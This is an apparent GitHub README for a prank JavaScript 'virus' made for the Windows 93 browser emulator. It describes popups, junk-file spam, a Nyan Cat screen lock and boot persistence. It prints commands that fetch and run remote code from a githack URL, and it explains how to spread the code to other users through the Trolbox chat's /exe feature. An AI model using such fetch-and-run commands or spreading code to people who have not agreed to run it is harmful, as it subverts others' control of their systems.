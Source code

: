 # Short TOS
IF ANY OF THIS CODE IS USED OR HAS BEEN PUBLISHED BY SOMEONE ELSE YOU --MUST-- CREDIT ME


# Memz-virus-v6



Hello there
This virus is inspired by the original MEMZ virus.
It is meant to run in the windows 93 emulator and was made in the emulator at http://windows93.net/

I would say this would be the best virus you can play with in win 93.



# What does it do?

The virus will make popups on your screen to annoy you including 2 other popups that will 
1: Load a memory virus. (spams you with junk files)

2: A fake reboot button that will put a nyan cat on your screen and play nyan cat music.
^^^(this will also not allow you to do anything, there will only be a nyan cat on your screen.)

The virus will open win 93 apps incuding Hydra.exe, and will also infect your boot with a js file that loads itself whenever you boot up. 
-->code($loader.script("https://raw.githack.com/mhmmkm/Memz-virus-v6/main/Code.js"))


There is another feature which defines that this is a virus. You can make others get it on their emulator using the win 93 app, Trolbox.
In trolbox u need to type in the command  /exe js https://raw.githack.com/mhmmkm/Memz-virus-v6/main/Code.js

The /exe command in trolbox is the executing command that will allow others to execute whatever you put after the exe.

This will make a /exe box next to your code which allows others to click that and execute that line of code.
It's the same thing in terminal. If you type js https://raw.githack.com/mhmmkm/Memz-virus-v6/main/Code.js
it will load the raw code.

I used https://raw.githack.com/ to make the code in this git be in a raw form.

____________________________________________________________________

I will be using this branch to publish any js code for the win 93 emulator.
